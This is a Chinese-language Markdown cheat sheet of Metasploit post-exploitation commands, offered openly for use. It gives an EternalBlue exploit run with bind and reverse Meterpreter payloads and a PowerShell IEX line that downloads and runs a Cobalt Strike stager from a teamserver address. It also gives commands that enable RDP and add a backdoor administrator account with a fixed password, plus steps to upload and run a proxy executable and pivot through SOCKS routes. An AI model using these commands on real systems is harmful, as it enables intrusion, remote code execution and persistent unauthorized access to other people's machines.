 # MSF后渗透命令集合开启3389等（军事化）

## MSF命令

### ms17010

```bash
# 使用正向TCP
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD  payload/windows/x64/meterpreter/bind_tcp
set LPORT 54444
set RHOST [ip]
exploit

# 使用反向tcp
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD  payload/windows/x64/meterpreter/reverse_tcp
set LPORT 38777
set RHOST [ip]
exploit
```

### CS上线

1. 在msf session直接执行powershell上线CS，免上传文件，只能打第一层网络

```bash
load powershell
powershell_execute "IEX ((new-object net.webclient).downloadstring('http://TeamServer—ip:33211/bugs'))"


IEX ((new-object net.webclient).downloadstring('http://192.168.137.231:33211/bugs'))
```

### 开启3389

```bash
# 开启3389并且添加用户
run post/windows/manage/enable_rdp username="synb123" password="qqNBNo.1"

# 仅开启3389
run post/windows/manage/enable_rdp

# 转发3389端口到本地6662
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662

# 进入主机shell
shell

# 备用cmd命令
net user synb123 qqNBNo.1 /add
net localgroup administrators synb123 /add
## 查看用户
net user synb123
```

### 添加自动路由

```bash
run post/multi/manage/autoroute
```

### 上传代理

```
upload qqproxy/qqproxy.exe c:\\qqproxy.exe
```

### 后台执行一个exe

```
execute -f c:\\qqproxy.exe
```



### 使用socks代理

```bash
setg Proxies socks5:ip:41088

setg ReverseAllowProxy true
```

## 附录：

WMIC命令开3389

```
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call
    setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call
        setuserauthenticationrequired 1
```
注册表开启3389

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

注册表关闭3389

`REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 11111111 /f`

查rdp端口

```
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber
```
